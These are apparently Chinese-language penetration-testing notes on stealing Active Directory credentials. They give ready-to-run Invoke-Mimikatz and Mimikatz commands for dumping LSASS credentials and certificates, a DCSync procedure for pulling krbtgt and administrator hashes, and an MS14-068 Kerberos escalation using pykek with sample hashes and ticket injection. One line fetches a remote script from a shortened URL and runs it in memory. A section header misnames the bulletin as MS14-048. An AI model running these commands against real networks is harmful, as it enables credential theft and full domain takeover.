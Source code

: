	2. Invoke-Mimikatz本地转储Active Directory凭据
		使用 mimikatz 从 LSASS 进程转储凭证 : Invoke-Mimikatz -DumpCreds
		使用 mimikatz 导出所有私有证书即使它们已被标记为不可导出 : Invoke-Mimikatz –DumpCerts
		在远程计算机上使用 debug 提升权限:Invoke-Mimikatz -Command "privilege::debug exit" -ComputerName "computer1"
		or Invoke-Mimikatz -Command '"privilege::debug" "LSADump::LSA /inject" exit'
				
	3. 使用 Invoke-Mimikatz 远程转储 Active Directory 凭据 (通过 PowerShell 远程管理)  
		外网下载并完全是在内存中执行代码
		IEX(New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -Command '"privilege::debug" "LSADump:LSA /inject"' -Computer dc2010.demo.local
		
	8-0x05 使用 Mimikatz 的 DCSync 功能远程转储 Active Directory 凭据
		理解：向 DC 发起同步一个对象（获取帐户的密码数据）的质询。需要域管理员，域管理员组或者自定义委派的一个成员权限。
		2015新的特性—— “DCSync”,可以有效地“假冒”一个域控制器,并可以向目标域控制器请求帐户密码数据。
		之前利用 DCSync 的攻击方法是在域控制器上运行 Mimikatz 或 Invoke-Mimikatz 得到 KRBTGT 账户的密码哈希创建黄金票证。
		如果使用适当的权限执行 Mimikatz 的 DCSync 功能,攻击者就可以通过网络远程读取域控制器的密码哈希,以及以前的密码的哈希,
		且无需交互式登录或复制 Active Directory 的数据库文件NTDS.DIT。
			
		运行 DCSync 所要求的特殊权限有管理员组Administrators,域管理员组 Domain Admins或企业管理员组Enterprise Admins
		以及域控制器计算机帐户的任何成员都能够运行 DCSync 去读取密码数据。
		需要注意的是只读域控制器默认是不允许读取用户密码数据的。
			
		DCSync 是何如工作的:

			a. 使用指定的域名称发现域控制器。
			b. 请求域控制器通过 DSGetNCChanges 复制用户凭据利用目录复制服务DRS远程协议
			DCSync 选项:
			/user - 要拉取数据的用户的 id 或 SID
			/domain可选的 Active Directory 域的 FQDN 域名,Mimikatz 会发现域中的一个 DC 并去连接。如果不提供该参数,Mimikatz 会默认设置为当前域。
			/dc可选的指定你想要使用 DCSync 连接并收集数据的域控制器。
			另外还有一个/guid参数。
			DCSync 命令行示例:
			拉取 demo.local域中的 krbtgt / testwin7 / administrator 用户帐户的密码数据:
			Mimikatz "privilege::debug" "lsadump::dcsync /domain:demo.local /user:testwin7" exit
						
## MS14-048 (限制条件:打了补丁或者域中有Win2012/2012R2 域控)
允许域内任何一个普通用户，将自己提升至域管权限。

作为普通用户向域控请求一个没有PAC的Kerberos TGT认证的票据，域控会返回一个TGT(不包含PAC，PAC通常包含有用户组中的成员关系)

生成一个伪造的PAC，因为没有密钥，所以生成的PAC"被标记"有MD5算法，而不是带有域用户密码数据的HMAC_MD5类型。

把伪造的PAC结合上TGT构造认证数据，作为TGS服务的一部分发送到域控。

域控会混淆构造的数据，所以直接丢弃之前用户发送没带有PAC的TGT，然后新构造一个TGT并用自己的认证数据插入到伪造的PAC当中，再把新TGT发送给用户
    
这样带有伪造PAC的TGT就能使用户成为有漏洞域控上的域管理员。
    
    1. mimikatz从域控上面抓取到所有账户信息
		mimikatz # log
		Using 'mimikatz.log' for logfile : OK
		mimikatz # privilege::debug
		Privilege '20' OK
		mimikatz # lsadump::lsa /inject
		......
    2. https://github.com/bidord/pykek
		C:\pykek-master>python ms14-068.py -u testwin7@demo.local -s S-1-5-21-1239069908-882060383-2558203358-1130 -d owa2010dc.demo.local  -p 1qaz$RFV --rc4 6df9f68e4b0656fa9ffd91d250506f8f
		[+] Creating ccache file 'TGT_testwin7@demo.local.ccache'... Done!]
    3. mimikatz # kerberos::ptc TGT_testwin7@demo.local.ccache (利用mimikatz注入高权限TGT的缓存证书)
	